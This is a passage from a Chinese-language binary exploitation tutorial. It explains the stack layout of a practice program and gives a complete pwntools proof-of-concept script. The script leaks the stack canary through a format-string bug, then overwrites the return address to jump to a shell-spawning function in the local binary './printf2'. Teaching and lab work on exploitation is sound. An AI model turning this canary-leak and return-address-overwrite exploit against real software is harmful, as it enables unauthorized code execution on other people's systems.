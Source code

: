 ```
当要执行第二个read函数，会发现read输入的内容是从eax处开始写。第二个箭头指向的是canary保护代码值，第三个是ebp指针，ebp指向的内容默认就是上一层函数的入口地址。
接下来分析汇编可以得知，第二次read函数输入的内容前8行(8*4B=32B)可以随便填充一个值，第九行是canary保护字段值不能改变，在第10-12行可以随便填充一个值，第13行就是我们可以恶意修改的入口地址，即ebp的下一行内存地址，那么只需改成exploit函数的入口地址，那么就会执行shellcode获得shell。
```

![image-20241214163351292](pwn二进制漏洞/image-20241214163351292.png)	

```python
编写poc.py如下
from pwn import *
import binascii
# 1. 启动目标程序
p = process("./printf2")  # 运行本地可执行文件 ./printf2
# 2. 利用 printf 漏洞泄露 Canary 值
p.sendline("%15$08x")  # 发送格式化字符串 %15$08x
# %15$08x: 访问第 15 个参数的值，以零填充的 8 位十六进制形式输出
# 通常，Canary 值位于栈上的第 15 个参数（具体取决于程序布局）。
canary = p.recv()[:8]  # 接收程序输出并提取前 8 个字符作为 Canary 的十六进制值，因为后面会带\n,要筛选掉
print(canary)  # 打印泄露的 Canary 值
# 3. 将泄露的 Canary 转换为小端字节序
canary = binascii.unhexlify(canary)  # 将十六进制字符串转换为字节
canary = canary[::-1]  # 反转字节顺序，转换为小端序
print(canary)  # 打印小端序格式的 Canary 值
# 4. 定义缓冲区偏移量和返回地址的偏移量
canary_offset = 8 * 4  # 缓冲区到 Canary 的偏移量（单位：字节）
ret_offset = 3 * 4  # Canary 到返回地址的偏移量（单位：字节）
# 5. 构造恶意 payload
exploit_address = p32(0x080491f6)  # 目标地址（小端格式），为漏洞利用后跳转的地址
payload = (
    canary_offset * b'a' +  # 填充缓冲区到 Canary 的偏移
    canary +  # 放置泄露的 Canary 值
    ret_offset * b'a' +  # 填充 Canary 到返回地址的偏移
    exploit_address  # 覆盖返回地址为目标地址
)
# 6. 发送 payload 并触发漏洞
p.sendline(payload)  # 将 payload 发送到目标程序
# 7. 进入交互模式
p.interactive()  # 与目标程序交互，通常是获得 shell 或验证利用成功
```
